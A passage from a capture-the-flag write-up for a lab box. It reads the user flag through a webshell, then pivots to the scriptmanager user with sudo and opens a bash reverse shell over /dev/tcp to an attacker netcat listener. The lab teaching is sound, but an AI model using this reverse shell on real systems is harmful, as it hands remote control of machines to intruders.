 

## USER FLAG

While there are three users on the box, it seems like the webshell's user (www-data) is able to access all of their home directories. To obtain the flag, just go looking for it:

```
cd /home
locate user.txt
cat /home/arrexel/user.txt
```



## ROOT FLAG

It seems like `scriptmanager` would be more important than ``www-data`` for obtaining the root flag. After all, if the webshell user had access to the root flag, that would be a pointlessly easy box :thinking:.

We can easily use ``www-data`` to run any command as ``scriptmanager``, but this syntax becomes a bit tedious after a while:

```bash
sudo -u scriptmanager [command]
```

It's much better to just make a reverse shell as scriptmanager:



### Reverse shell

Based on which tools are present, discovered in foothold step (4), I run through a list of useful reverse shells. These can all be [found on GTFObins](https://gtfobins.github.io/), along with many more.

First things first, on the attacker box make a new firewall rule to allow the reverse shell from this target:

```bash
sudo ufw allow from 10.10.10.68 to any port 4444 proto tcp
```

Also on the attacker box, set up a netcat listener:

```bash
bash
nc -lvnp 4444
```

> :point_up: Changing to Bash (instead of my default, zsh) will set us up for success in *upgrading the shell* later on.

Then, on the target box, try to connect back to the attacker box:

```bash
sudo -u scriptmanager bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'
```
